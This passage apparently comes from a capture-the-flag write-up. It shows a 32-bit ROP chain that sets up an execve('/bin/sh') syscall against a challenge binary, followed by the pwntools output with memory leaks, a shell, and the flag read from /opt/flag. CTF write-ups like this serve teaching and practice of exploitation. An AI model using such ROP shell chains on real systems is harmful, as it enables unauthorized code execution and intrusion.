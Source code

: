 ```
rop += p32(POPECXEAX)
rop += p32(0)
rop += p32(11)
rop += p32(POPEBX)
rop += p32(next(libc.search("/bin/sh")))
rop += p32(POPEDX)
rop += p32(0)
rop += p32(SYSCALL)
    
r.sendline(rop)
```

which then finally lands a shell

```
[+] Opening connection to io.ept.gg on port 51041: Done
[*] PIE leak     : 0x565b51d1
[*] ELF          : 0x565b3000
[*] HEAP leak    : 0x56c861c0
[*] LIBC  leak   : 0xf7fa7620
[*] LIBC         : 0xf7d7d000
[*] Switching to interactive mode
Exiting the program...
$ ls
travel_tracker
ynetd
$ cat /opt/flag
EPT{l3gacy_l0v3}$  
```

Final exploit:
